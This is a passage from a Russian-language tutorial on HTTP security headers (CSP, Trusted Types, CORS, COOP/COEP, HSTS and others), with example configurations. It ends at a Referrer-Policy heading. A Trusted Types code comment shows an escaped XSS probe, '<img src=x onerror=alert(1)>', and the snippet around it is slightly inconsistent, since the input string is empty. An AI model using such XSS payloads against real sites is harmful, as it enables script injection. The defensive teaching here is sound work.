









# Security Headers

Сначала кратко разберем основные виды уязвимостей веб-приложений, а также основные виды атак, основанные на этих уязвимостях. Далее рассмотрим все современные заголовки, каждый — по отдельности. Это в теоретической части.

В практической части реализуем простое `Express-приложение`, развернем его на <a href="https://www.heroku.com">`Heroku`</a> и оценим безопасность с помощью <a href="https://www.webpagetest.org/">`WebPageTest`</a> и <a href="https://securityheaders.com/">`Security Headers`</a>. Также, учитывая большую популярность сервисов для генерации статических сайтов, мы настроим и развернем приложение с аналогичным функционалом на <a href="https://www.netlify.com">`Netlify`</a>.

Исходный код приложений находится <a href="https://github.com/harryheman/Blog-Posts/tree/master/security-headers">здесь</a>.

Основными источниками истины при подготовке шпаргалки для меня послужили следующие ресурсы:

- <a href="https://web.dev/security-headers/">Security headers quick reference - Google Developers</a>
- <a href="https://owasp.org/www-project-secure-headers/">OWASP Secure Headers Project</a>
- <a href="https://developer.mozilla.org/en-US/docs/Web/Security">Web security - MDN</a>

## Заголовки безопасности

Все заголовки условно можно разделить на три группы.

_Заголовки для сайтов, на которых обрабатываются чувствительные (sensitive) данные пользователей_

- `Content Security Policy (CSP)`;
- `Trusted Types`.

_Заголовки для всех сайтов_

- `X-Content-Type-Options`;
- `X-Frame-Options`;
- `Cross-Origin Resource Policy (CORP)`;
- `Cross-Origin Opener Policy (COOP)`;
- `HTTP Strict Transport Security (HSTS)`.

_Заголовки для сайтов с продвинутыми возможностями_

Под продвинутыми возможностями в данном случае понимается возможность использования ресурсов сайта другими источниками (origins) или возможность встраивания или внедрения (embedding) сайта в другие приложения. Первое относится к сервисам вроде <a href="https://ru.wikipedia.org/wiki/Content_Delivery_Network">`CDN`</a> (Content Delivery Network — сеть доставки и дистрибуции содержимого), второе к сервисам вроде <a href="https://ru.wikipedia.org/wiki/%D0%9F%D0%B5%D1%81%D0%BE%D1%87%D0%BD%D0%B8%D1%86%D0%B0_(%D0%B1%D0%B5%D0%B7%D0%BE%D0%BF%D0%B0%D1%81%D0%BD%D0%BE%D1%81%D1%82%D1%8C)">песочниц</a> — специально выделенные (изолированные) среды для выполнения кода. Под источником понимается протокол, хост, домен и порт.

- `Cross-Origin Resource Sharing (CORS)`;
- `Cross-Origin Embedder Policy (COEP)`.

## Угрозы безопасности, существующие в вебе

**Защита сайта от внедрения кода (injection vulnerabilities)**

Угрозы, связанные с возможностью внедрения кода, возникают, когда непроверенные данные, обрабатываемые приложением, могут оказывать влияние на поведение приложения. В частности, это может привести к выполнению скриптов, управляемых атакующим (принадлежащих ему). Наиболее распространенным видом атаки, связанной с внедрением кода, является <a href="https://ru.wikipedia.org/wiki/%D0%9C%D0%B5%D0%B6%D1%81%D0%B0%D0%B9%D1%82%D0%BE%D0%B2%D1%8B%D0%B9_%D1%81%D0%BA%D1%80%D0%B8%D0%BF%D1%82%D0%B8%D0%BD%D0%B3">межсайтовый скриптинг</a> (Cross-Site Scripting, XSS; к слову, сокращение `XSS` было выбрано во избежание путаницы с <a href="https://ru.wikipedia.org/wiki/CSS">`CSS`</a>) в различных формах, включая отраженные или непостоянные `XSS` (reflected XSS), хранимые или постоянные `XSS` (stored XSS), `XSS`, основанные на <a href="https://ru.wikipedia.org/wiki/Document_Object_Model">`DOM`</a> (DOM XSS) и т.д.

`XSS` может предоставить атакующему полный доступ к пользовательским данным, которые обрабатываются приложением, а также к другой информации в пределах источника.

Традиционными способами защиты от `XSS` являются: автоматическое экранирование шаблонов `HTML` с помощью специальных инструментов, отказ от использования небезопасных `JavaScript API` (например, `eval()` или `innerHTML`), хранение данных пользователей в другом источнике и обезвреживание или обеззараживание (sanitizing) данных, поступающих от пользователей, например, через заполнение ими полей формы.

_Рекомендации_

- используйте `CSP` для определения того, какие скрипты могут выполняться в вашем приложении;
- используйте `Trusted Types` для обезвреживания данных, передаваемых в небезопасные `API`;
- используйте `X-Content-Type-Options` для предотвращения неправильной интерпретации браузером <a href="https://ru.wikipedia.org/wiki/%D0%A1%D0%BF%D0%B8%D1%81%D0%BE%D0%BA_MIME-%D1%82%D0%B8%D0%BF%D0%BE%D0%B2">MIME-типов</a> загружаемых ресурсов.

**Изоляция сайта**

Открытость веба позволяет сайтам взаимодействовать друг с другом способами, которые могут привести к нарушениям безопасности. Это включает в себя отправку "неожиданных" запросов на аутентификацию или загрузку данных из приложения в документ атакующего, что позволяет последнему читать или даже модифицировать эти данные.

Наиболее распространенными уязвимостями, связанными с публичностью (общей доступностью) приложения, являются <a href="https://ru.wikipedia.org/wiki/%D0%9A%D0%BB%D0%B8%D0%BA%D0%B4%D0%B6%D0%B5%D0%BA%D0%B8%D0%BD%D0%B3">кликджекинг</a> (clickjacking), <a href="https://ru.wikipedia.org/wiki/%D0%9C%D0%B5%D0%B6%D1%81%D0%B0%D0%B9%D1%82%D0%BE%D0%B2%D0%B0%D1%8F_%D0%BF%D0%BE%D0%B4%D0%B4%D0%B5%D0%BB%D0%BA%D0%B0_%D0%B7%D0%B0%D0%BF%D1%80%D0%BE%D1%81%D0%B0#:~:text=cross%2Dsite%20request%20forgery%20%E2%80%94%20%C2%AB,%D1%81%D0%B0%D0%B9%D1%82%D0%BE%D0%B2%2C%20%D0%B8%D1%81%D0%BF%D0%BE%D0%BB%D1%8C%D0%B7%D1%83%D1%8E%D1%89%D0%B8%D0%B9%20%D0%BD%D0%B5%D0%B4%D0%BE%D1%81%D1%82%D0%B0%D1%82%D0%BA%D0%B8%20%D0%BF%D1%80%D0%BE%D1%82%D0%BE%D0%BA%D0%BE%D0%BB%D0%B0%20HTTP.&text=%D0%A2%D0%B0%D0%BA%D0%B6%D0%B5%20%D1%81%20%D0%BF%D0%BE%D0%BC%D0%BE%D1%89%D1%8C%D1%8E%20CSRF%20%D0%B2%D0%BE%D0%B7%D0%BC%D0%BE%D0%B6%D0%BD%D0%B0,XSS%2C%20%D0%BE%D0%B1%D0%BD%D0%B0%D1%80%D1%83%D0%B6%D0%B5%D0%BD%D0%BD%D1%8B%D1%85%20%D0%BD%D0%B0%20%D0%B4%D1%80%D1%83%D0%B3%D0%BE%D0%BC%20%D1%81%D0%B5%D1%80%D0%B2%D0%B5%D1%80%D0%B5.">межсайтовая подделка запросов</a> (Cross-Site Request Forgery, XSRF), <a href="https://www.scip.ch/en/?labs.20160414">межсайтовое добавление или включение скриптов</a> (Cross-Site Script Inclusion, XSSI) и различные <a href="https://xsleaks.dev/">утечки информации между источниками</a>.

_Рекомендации_

- используйте `X-Frame-Options` для предотвращения встраивания вашего документа в другие приложения;
- используйте `CORP` для предотвращения возможности использования ресурсов вашего сайта другими источниками;
- используйте `COOP` для защиты окон (windows) вашего приложения от взаимодействия с другими приложениями;
- используйте `CORS` для управления доступом к ресурсам вашего сайта из других источников.

**Безопасность сайтов со сложным функционалом**

<a href="https://ieeexplore.ieee.org/document/8835233">`Spectre`</a> делает любые данные, загруженные в одну и ту же группу контекста просмотра (browsing context group), потенциально общедоступными, несмотря на <a href="https://ru.wikipedia.org/wiki/%D0%9F%D1%80%D0%B0%D0%B2%D0%B8%D0%BB%D0%BE_%D0%BE%D0%B3%D1%80%D0%B0%D0%BD%D0%B8%D1%87%D0%B5%D0%BD%D0%B8%D1%8F_%D0%B4%D0%BE%D0%BC%D0%B5%D0%BD%D0%B0">правило ограничения домена</a>. Браузеры ограничивают возможности, которые могут привести к нарушению безопасности с помощью среды выполнения кода под названием "межсайтовая изоляция" (Cross-Origin Isolation). Это, в частности, позволяет безопасно использовать такие мощные возможности, как `SharedArrayBuffer`.

_Рекомендации_

- используйте `COEP` совместно с `COOP` для обеспечения межсайтовой изоляции приложения.

**Шифрование исходящего трафика**

Недостаточное шифрование передаваемых данных может привести к тому, что атакующий, в случае перехвата этих данных, получит информацию о взаимодействии пользователей с приложением.

Неэффективное шифрование может быть обусловлено следующим:

- использование `HTTP` вместо `HTTPS`;
- смешанный контент (когда одни ресурсы загружаются по `HTTPS`, а другие — по `HTTP`);
- куки без атрибута `Secure` или соответствующего префикса (также имеет смысл определять настройку `HttpOnly`);
- слабая политика `CORS`.

_Рекомендации_

- используйте `HSTS` для обслуживания всего контента вашего приложения через `HTTPS`.

Перейдем к рассмотрению заголовков.

## <a href="https://developer.mozilla.org/ru/docs/Web/HTTP/CSP">`Content Security Policy (CSP)`</a>

`XSS` — это атака, когда уязвимость, существующая на сайте, позволяет атакующему внедрять и выполнять свои скрипты. `CSP` предоставляет дополнительный слой для отражения таких атак посредством ограничения скриптов, которые могут выполняться на странице.

Инженеры из `Google` рекомендуют использовать строгий режим `CSP`. Это можно сделать одним из двух способов:

- если HTML-страницы рендерятся на сервере, следует использовать основанный на случайном значении (nonce-based) `CSP`;
- если разметка является статической или доставляется из кеша, например, в случае, когда приложение является одностраничным (`SPA`), следует использовать основанный на хеше (hash-based) `CSP`.

Пример использования nonce-based CSP:

```
Content-Security-Policy:
 script-src 'nonce-{RANDOM1}' 'strict-dynamic' https: 'unsafe-inline';
 object-src 'none';
 base-uri 'none';
```

**Использование CSP**

_Обратите внимание_: `CSP` является дополнительной защитой от XSS-атак, основная защита состоит в обезвреживании данных, вводимых пользователем.

_1. Nonce-based CSP_

`nonce` — это случайное число, которое используется только один раз. Если у вас нет возможности генерировать такое число для каждого ответа, тогда лучше использовать hash-based CSP.

Генерируем `nonce` на сервере для скрипта в ответ на каждый запрос и устанавливаем следующий заголовок:

```
Content-Security-Policy:
 script-src 'nonce-{RANDOM1}' 'strict-dynamic' https: 'unsafe-inline';
 object-src 'none';
 base-uri 'none';
```

Затем в разметке устанавливаем каждому тегу `script` атрибут `nonce` со значением строки `{RANDOM1}`:

```html
<script nonce="{RANDOM1}" src="https://example.com/script1.js"></script>
<script nonce="{RANDOM1}">
 // ...
</script>
```

Хорошим примером использования nonce-based CSP является сервис <a href="https://photos.google.com/">`Google Фото`</a>.

_2. Hash-based CSP_

Сервер:

```
Content-Security-Policy:
 script-src 'sha256-{HASH1}' 'sha256-{HASH2}' 'strict-dynamic' https: 'unsafe-inline';
 object-src 'none';
 base-uri 'none';
```

В данном случае можно использовать только встроенные скрипты, поскольку большинство браузеров в настоящее время не поддерживает хеширование внешних скриптов.

```html
<script>
 // встроенный script1
</script>
<script>
 // встроенный script2
</script>
```

<a href="https://csp-evaluator.withgoogle.com/">`CSP Evaluator`</a> — отличный инструмент для оценки `CSP`.

Заметки:

- `https:` — это резервный вариант для `Firefox`, а `unsafe-inline` — для очень старых браузеров;
- директива `frame-ancestors` защищает сайт от кликджекинга, запрещая другим сайтам использовать контент вашего приложения. `X-Frame-Options` является более простым решением, но `frame-ancestors` позволяет выполнять тонкую настройку разрешенных источников;
- `CSP` можно использовать для обеспечения загрузки всех ресурсов по `HTTPS`. Это не слишком актуально, поскольку в настоящее время большинство браузеров блокирует смешанный контент;
- `CSP` можно использовать в режиме только для чтения (report-only mode);
- `CSP` может быть установлен в разметке как мета-тег.

В рассматриваемом заголовке можно использовать следующие директивы:

| Директива                 | Описание                                                                                                                    |
| ------------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| base-uri                  | Определяет базовый <a href="https://ru.wikipedia.org/wiki/URI">`URI`</a> для относительных                                  |
| default-src               | Определяет политику загрузки ресурсов всех типов при отсутствии специальной директивы (политику по умолчанию)               |
| script-src                | Определяет скрипты, которые могут выполняться на странице                                                                   |
| object-src                | Определяет, откуда могут загружаться ресурсы - плагины                                                                      |
| style-src                 | Определяет стили, которые могут применяться на странице                                                                     |
| img-src                   | Определяет, откуда могут загружаться изображения                                                                            |
| media-src                 | Определяет, откуда могут загружаться аудио и видеофайлы                                                                     |
| child-src                 | Определяет, откуда могут загружаться фреймы                                                                                 |
| frame-ancestors           | Определяет, где (в каких источниках) ресурс может загружаться во фреймы                                                     |
| font-src                  | Определяет, откуда могут загружаться шрифты                                                                                 |
| connect-src               | Определяет разрешенные `URI`                                                                                                |
| manifest-src              | Определяет, откуда могут загружаться файлы манифеста                                                                        |
| form-action               | Определяет, какие `URI` могут использоваться для отправки форм (в атрибуте `action`)                                        |
| sandbox                   | Определяет политику песочницы (sandbox policy) `HTML`, которую агент пользователя применяет к защищенному ресурсу           |
| script-nonce              | Определяет, что для выполнения скрипта требуется наличие уникального значения                                               |
| plugin-types              | Определяет набор плагинов, которые могут вызываться защищенным ресурсом посредством ограничения типов встраиваемых ресурсов |
| reflected-xss             | Используется для активации/деактивации эвристических методов браузера для фильтрации или блокировки отраженных XSS-атак     |
| block-all-mixed-content   | Запрещает загрузку смешанного контента                                                                                      |
| upgrade-insecure-requests | Определяет, что небезопасные ресурсы (загружаемые по `HTTP`) должны загружаться по `HTTPS`                                  |
| report-to                 | Определяет группу (указанную в заголовке `Report-To`), в которую отправляются отчеты о нарушениях политики                  |

Возможные значения директив для нестрогого режима `CSP`:

- `'self'` — ресурсы могут загружаться только из данного источника;
- `'none'` — запрет на загрузку ресурсов;
- `*` — ресурсы могут загружаться из любого источника;
- `example.com` — ресурсы могут загружаться только из `example.com`.

```
Content-Security-Policy: default-src 'self'; img-src *; media-src media1.com media2.com; script-src example.com
```

В данном случае изображения могут быть загружены из любого источника, другие медиафайлы — только с `media1.com` и `media2.com` (исключая их поддомены), скрипты — только с `example.com`.

## <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/require-trusted-types-for">`Trusted Types`</a>

`XSS`, основанный на `DOM` — это атака, когда вредоносный код передается в приемник, который поддерживает динамическое выполнение кода, такой как `eval()` или `innerHTML`.

`Trusted Types` предоставляет инструменты для создания, модификации и поддержки приложений, полностью защищенных от `DOM XSS`. Этот режим может быть включен через `CSP`. Он делает JavaScript-код безопасным по умолчанию посредством ограничения значений, принимаемых небезопасными `API`, специальным объектом — `Trusted Type`.

Для создания таких объектов можно определить политики, которые проверяют соблюдение правил безопасности (таких как экранирование и обезвреживание) перед записью данных в `DOM`. Затем эти политики помещаются в код, который может представлять интерес для `DOM XSS`.

_Пример использования_

Включаем `Trusted Types` для опасных приемников `DOM`:

```
Content-Security-Policy: require-trusted-types-for 'script'
```

В настоящее время единственным доступным значением директивы `require-trusted-types-for` является `script`.

Разумеется, `Trusted Types` можно комбинировать с другими директивами `CSP`:

```
Content-Security-Policy:
 script-src 'nonce-{RANDOM1}' 'strict-dynamic' https: 'unsafe-inline';
 object-src 'none';
 base-uri 'none';
 require-trusted-types-for 'script';
```

C помощью директивы `trusted-types` можно ограничить пространство имен для политик `Trusted Types`, например, `trusted-types myPolicy`.

Определяем политику:

```js
// проверяем поддержку
if (window.trustedTypes && trustedTypes.createPolicy) {
 // создаем политику
 const policy = trustedTypes.createPolicy('escapePolicy', {
   createHTML: (str) => str.replace(/\</g, '&lt;').replace(/>/g, '&gt;')
 })
}
```

Применяем политику:

```js
// будет выброшено исключение
el.innerHTML = 'some string'
// ок
const escaped = policy.createHTML('')
el.innerHTML = escaped // '&lt;img src=x onerror=alert(1)&gt;'
```

Директива `require-trusted-types-for 'script'` делает использование доверенного типа обязательным. Любая попытка использовать строку в небезопасном `API` завершится ошибкой.

Подробнее о `Trusted Types` можно почитать <a href="https://habr.com/ru/company/macloud/blog/564174/">здесь</a>.

## <a href="https://developer.mozilla.org/ru/docs/Web/HTTP/Headers/X-Content-Type-Options">`X-Content-Type-Options`</a>

Когда вредоносный HTML-документ обслуживается вашим доменом (например, когда изображение, загружаемое в сервис хранения фотографий, содержит валидную разметку), некоторые браузеры могут посчитать его активным документом и разрешить ему выполнять скрипты в контексте приложения.

`X-Content-Type-Options: nosniff` заставляет браузер проверять корректность MIME-типа в заголовке полученного ответа <a href="https://developer.mozilla.org/ru/docs/Web/HTTP/Headers/Content-Type">`Content-Type`</a>. Рекомендуется устанавливать такой заголовок для всех загружаемых ресурсов.


```
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=utf-8
```

## <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options">`X-Frame-Options`</a>

Если вредоносный сайт будет иметь возможность встраивать ваше приложение как `iframe`, это может предоставить атакующему возможность вызывать непреднамеренные действия пользователей через кликджекинг. В некоторых случаях это также позволяет атакующему изучать содержимое документа.

`X-Frame-Options` является индикатором того, должен ли ваш сайт рендериться в `<frame>,` `<iframe>`, `<embed>` или `<object>`.

Для того, чтобы разрешить встраивание только определенных страниц сайта, используется директива `frame-ancestors` заголовка `CSP`.

_Примеры использования_

Полностью запрещаем внедрение:

```
X-Frame-Options: DENY
```

Разрешаем создание фреймов только на собственном сайте:

```
X-Frame-Options: SAMEORIGIN
```


_Обратите внимание_: по умолчанию все документы являются встраиваемыми.

## <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Resource-Policy">`Cross-Origin-Resource-Policy (CORP)`</a>

Атакующий может внедрить ресурсы вашего сайта в свое приложение с целью получения информации о сайте.

`CORP` определяет, какие сайты могут внедрять ресурсы вашего приложения. Данный заголовок принимает 1 из 3 возможных значений: `same-origin`, `same-site` и `cross-origin`.

Для сервисов вроде `CDN` рекомендуется использовать значение `cross-origin`, если для них не определен соответствующий заголовок `CORS`.



```
Cross-Origin-Resource-Policy: cross-origin
```

`same-origin` разрешает внедрение ресурсов страницами, принадлежащими к одному источнику. Данное значение применяется в отношении чувствительной информации о пользователях или ответов от `API`, которые рассчитаны на использование в пределах данного источника.

_Обратите внимание_: ресурсы все равно будут доступны для загрузки, поскольку `CORP` ограничивает только внедрение этих ресурсов в другие источники.


```
Cross-Origin-Resource-Policy: same-origin
```

`same-site` предназначен для ресурсов, которые используются не только доменом (как в случае с `same-origin`), но и его поддоменами.


```
Cross-Origin-Resource-Policy: same-site
```

## <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy">`Cross-Origin-Opener-Policy (COOP)`</a>

Если сайт атакующего может открывать другой сайт в <a href="https://ru.wikipedia.org/wiki/%D0%92%D1%81%D0%BF%D0%BB%D1%8B%D0%B2%D0%B0%D1%8E%D1%89%D0%B5%D0%B5_%D0%BE%D0%BA%D0%BD%D0%BE">поп-апе (всплывающем окне)</a>, то у атакующего появляется возможность для поиска межсайтовых источников утечки информации. В некоторых случаях это также позволяет реализовать атаку с использованием побочных каналов, описанную в `Spectre`.

Заголовок `Cross-Origin-Opener-Policy` позволяет запретить открытие сайта с помощью метода `window.open()` или ссылки `target="_blank"` без `rel="noopener"`. Как результат, у того, кто попытается открыть сайт такими способами, не будет ссылки на сайт, и он не сможет с ним взаимодействовать.

Значение `same-origin` рассматриваемого заголовка позволяет полностью запретить открытие сайта в других источниках.



```
Cross-Origin-Opener-Policy: same-origin
```

Значение `same-origin-allow-popups` также защищает документ от открытия в поп-апах других источников, но позволяет приложению взаимодействовать с собственными поп-апами.


```
Cross-Origin-Opener-Policy: same-origin-allow-popups
```

`unsafe-none` является значением по умолчанию, оно разрешает открытие сайта в виде поп-апа в других источниках.



```
Cross-Origin-Opener-Policy: unsafe-none
```

Мы можем получать отчеты от `COOP`:

```
Cross-Origin-Opener-Policy: same-origin; report-to="coop"
```

`COOP` также поддерживает режим `report-only`, позволяющий получать отчеты о нарушениях без их блокировки.

```
Cross-Origin-Opener-Policy-Report-Only: same-origin; report-to="coop"
```

## <a href="https://developer.mozilla.org/ru/docs/Web/HTTP/CORS">`Cross-Origin Resource Sharing (CORS)`</a>

`CORS` — это не заголовок, а механизм, используемый браузером для предоставления доступа к ресурсам приложения.

По умолчанию браузеры используют политику одного источника или общего происхождения, которая запрещает доступ к таким ресурсам из других источников. Например, при загрузке изображения из другого источника, даже несмотря на его отображение на странице, JavaScript-код не будет иметь к нему доступа. Провайдер ресурса может предоставить такой доступ через настройку `CORS` с помощью двух заголовков:

```
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Credentials: true
```

**Использование CORS**

Начнем с того, что существует два типа HTTP-запросов. В зависимости от деталей запроса он может быть классифицирован как простой или сложный (запрос, требующий отправки предварительного запроса).

Критериями простого запроса является следующее:

- методом запроса является `GET`, `HEAD` или `POST`;
- кастомными заголовками могут быть только `Accept`, `Accept-Language`, `Content-Language` и `Content-Type`;
- значением заголовка `Content-Type` может быть только `application/x-www-form-urlencoded`, `multipart/form-data` или `text/plain`.

Все остальные запросы считаются сложными.

_Простой запрос_

В данном случае браузер отправляет запрос к другому источнику с заголовком `Origin`, значением которого является источник запроса:

```
Get / HTTP/1.1
Origin: https://example.com
```

Ответ:

```
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Credentials: true
```

- `Access-Control-Allow-Origin: https://example.com` означает, что `https://example.com` имеет доступ к содержимому ответа. Если значением данного заголовка является `*`, ресурсы будут доступны любому сайту. В этом случае полномочия (credentials) не требуются;
- `Access-Control-Allow-Credentials: true` означает, что запрос на получение ресурсов должен содержать полномочия (куки). При отсутствии полномочий в запросе, даже при наличии источника в заголовке `Access-Control-Allow-Origin`, запрос будет отклонен.

_Сложный запрос_

Перед сложным запросом выполняется предварительный. Он выполняется методом `OPTIONS` для определения того, может ли быть отправлен основной запрос:

```
OPTIONS / HTTP/1.1
Origin: https://example.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: X-PINGOTHER, Content-Type
```

- `Access-Control-Request-Method: POST` — следующий запрос будет отправлен методом `POST`;
- `Access-Control-Request-Headers: X-PINGOTHER, Content-Type` — следующий запрос будет отправлен с заголовками `X-PINGOTHER` и `Content-Type`.

Ответ:

```
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Headers: X-PINGOTHER, Content-Type
Access-Control-Max-Age: 86400
```

- `Access-Control-Allow-Methods: POST, GET, OPTIONS` — следующий запрос может выполняться указанными методами;
- `Access-Control-Allow-Headers: X-PINGOTHER, Content-Type` — следующий запрос может содержать указанные заголовки;
- `Access-Control-Max-Age: 86400` — результат сложного запроса будет записан в кеш и будет там храниться на протяжении 86400 секунд.

## <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Embedder-Policy">`Cross-Origin-Embedder-Policy (COEP)`</a>

Для предотвращения кражи ресурсов из других источников с помощью атак, описанных в `Spectre`, такие возможности, как `SharedArrayBuffer`, `performance.measureUserAgentSpecificMemory()` или `JS Self Profiling API`, по умолчанию отключены.

`Cross-Origin-Embedder-Policy: require-corp` запрещает документам и воркерам (workers) загружать изображения, скрипты, стили, фреймы и другие ресурсы до тех пор, пока доступ к ним не разрешен с помощью заголовков `CORS` или `CORP`. `COEP` может использоваться совместно с `COOP` для настройки межсайтовой изоляции документа.

На данный момент `require-corp` является единственным доступным значением рассматриваемого заголовка, кроме `unsafe-none`, которое является значением по умолчанию.



_Полная межсайтовая изоляция приложения_

```
Cross-Origin-Embedder-Policy: require-corp
Cross-Origin-Opener-Policy: same-origin
```

_Изоляция с отчетами о блокировках_

```
Cross-Origin-Embedder-Policy: require-corp; report-to="coep"
```

_Только отчеты_

```
Cross-Origin-Embedder-Policy-Report-Only: require-corp; report-to="coep"
```

## <a href="https://developer.mozilla.org/ru/docs/Web/HTTP/Headers/Strict-Transport-Security">`HTTP Strict Transport Security (HSTS)`</a>

Данные, передаваемые по `HTTP`, не шифруются, что делает их доступными для перехватчиков на уровне сети.

Заголовок `Strict-Transport-Security` запрещает использование `HTTP`. При наличии данного заголовка браузер будет использовать `HTTPS` без перенаправления на `HTTP` (при отсутствии ресурса по `HTTPS`) в течение указанного времени (`max-age`).

```
Strict-Transport-Security: max-age=31536000
```

_Директивы_

- `max-age` — время в секундах, в течение которого браузер должен "помнить", что сайт доступен только по `HTTPS`;
- `includeSubDomains` — распространяет политику на поддомены.

## Другие заголовки

### <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy">`Referrer-Policy`</a>

